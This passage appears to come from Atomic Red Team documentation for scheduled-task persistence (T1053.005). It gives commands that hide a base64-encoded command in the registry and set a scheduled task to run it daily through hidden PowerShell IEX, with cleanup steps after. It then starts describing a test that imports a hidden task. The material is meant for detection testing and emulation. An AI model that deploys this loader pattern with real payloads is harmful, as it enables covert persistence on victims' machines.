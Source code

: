 [Additiona Information](https://thedfirreport.com/2022/02/07/qbot-likes-to-move-it-move-it/)

**Supported Platforms:** Windows


**auto_generated_guid:** e895677d-4f06-49ab-91b6-ae3742d0a2ba





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| time | Daily scheduled task execution time | string | 07:45|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add HKCU\SOFTWARE\ATOMIC-T1053.005 /v test /t REG_SZ /d cGluZyAxMjcuMC4wLjE= /f
schtasks.exe /Create /F /TN "ATOMIC-T1053.005" /TR "cmd /c start /min \"\" powershell.exe -Command IEX([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String((Get-ItemProperty -Path HKCU:\\SOFTWARE\\ATOMIC-T1053.005).test)))" /sc daily /st #{time}
```

#### Cleanup Commands:
```cmd
schtasks /delete /tn "ATOMIC-T1053.005" /F >nul 2>&1
reg delete HKCU\SOFTWARE\ATOMIC-T1053.005 /F >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - Import XML Schedule Task with Hidden Attribute
Create an scheduled task that executes calc.exe after user login from XML that contains hidden setting attribute. 
This technique was seen several times in tricbot malware and also with the targetted attack campaigne the industroyer2.

**Supported Platforms:** Windows


**auto_generated_guid:** cd925593-fbb4-486d-8def-16cbdf944bf4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xml_path | path of vbs to use when creating masquerading files | path | PathToAtomicsFolder&#92;T1053.005&#92;src&#92;T1053_05_SCTASK_HIDDEN_ATTRIB.xml|
